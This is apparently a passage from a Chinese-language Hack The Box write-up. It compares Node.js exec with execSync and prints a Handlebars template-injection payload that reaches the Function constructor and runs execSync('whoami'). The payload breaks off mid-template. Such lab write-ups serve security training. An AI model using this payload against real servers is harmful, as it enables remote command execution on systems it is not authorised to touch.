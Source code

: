 ![Untitled](HTB%20writeu%20673ee/Untitled%2048.png)

exec 是非同步輸出，所以會比較麻煩，在某些場景可能不會正常輸出

```jsx
require('child_process').exec("whoami", (err, stdout)=> { console.log(stdout) })
```

用 execSync 會比較方便且穩定

```jsx
require('child_process').execSync("whoami").toString()
```

```jsx
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
```